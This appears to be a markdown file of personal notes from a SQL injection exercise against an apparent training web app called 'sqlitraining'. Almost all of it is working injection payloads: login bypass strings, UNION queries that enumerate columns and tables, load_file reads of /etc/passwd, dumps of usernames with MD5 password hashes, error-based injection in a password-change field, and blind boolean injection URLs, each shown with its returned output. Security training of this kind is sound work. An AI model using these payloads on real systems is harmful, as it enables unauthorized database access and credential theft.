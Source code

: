 # Login explot

bob' -- //
b%' ORDER BY 5 -- //
a' or 1=1 -- //

# List Products exploit

## Get the number of columns

' UNION SELECT 1,2,3,4,5 FROM products -- // # 1,2,... until reach a non-error message!

## Get secret database information, like the database name

' UNION SELECT 1,user(),database(),version(),load_file('/etc/passwd') FROM products -- //

[return]
    root@10.139.1.3
    sqlitraining
    8.0.39
    root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin mysql:x:999:999::/var/lib/mysql:/bin/bash 

## Get the tables name from database INFORMATION_SCHEMA.TABLES

' UNION SELECT 1,(select GROUP_CONCAT(TABLE_NAME,'\n') from INFORMATION_SCHEMA.TABLES where TABLE_TYPE = 'BASE TABLE' and TABLE_SCHEMA='sqlitraining'),3,4,5 FROM products -- //

[return]
    products,
    users

## Get the columns name from table users

' union select 1,2,(select GROUP_CONCAT(column_name,'\n') from information_schema.columns where table_name='users'),4,5 -- //

[return]
    CURRENT_CONNECTIONS,
    MAX_SESSION_CONTROLLED_MEMORY,
    MAX_SESSION_TOTAL_MEMORY,
    TOTAL_CONNECTIONS,
    USER,
    description,
    fname,
    id,
    password,
    username

## Get username and password

' union select 1,(select GROUP_CONCAT(username,':',password,'\n') from users),3,4,5 -- //

[return]
    admin:21232f297a57a5a743894a0e4a801fc3,
    bob:5f4dcc3b5aa765d61d8327deb882cf99,
    ramesh:9aeaed51f2b0f6680c4ed4b07fb1a83c,
    suresh:9aeaed51f2b0f6680c4ed4b07fb1a83c,
    alice:c93239cae450631e9f55d71aed99e918,
    voldemort:856936b417f82c06139c74fa73b1abbe,
    frodo:f0f8820ee817181d9c6852a097d70d8d,
    hodor:a55287e9d0b40429e5a944d10132c93e,
    rhombus:e52848c0eb863d96bc124737116f23a4 

# Change password exploit

## In username fild try:

' or 1 in (SELECT database()) -- //
' or 1 in (SELECT version()) -- //`
' or 1 in (SELECT load_file('/etc/passwd')) -- //`
' or 1 in (SELECT GROUP_CONCAT(username,':',password,'\n') FROM users) -- //`

# Blind Injection

## Name finding exploit

http://10.139.1.3/blindsqli.php?user=admin  # FOUND
http://10.139.1.3/blindsqli.php?user=bob    # FOUND
http://10.139.1.3/blindsqli.php?user=alice  # FOUND
http://10.139.1.3/blindsqli.php?user=eve    # NOT FOUND

## Test if `id` table exists in `users`:

http://10.139.1.3/blindsqli.php?user=bob' AND SUBSTRING((select id from users LIMIT 1), 1, 1)>0 -- //
try:
    10.139.1.3/blindsqli.php?user=boba' AND SUBSTRING((select name from users where username LIKE 'b%'  LIMIT 1), 1, 1)>0 -- //

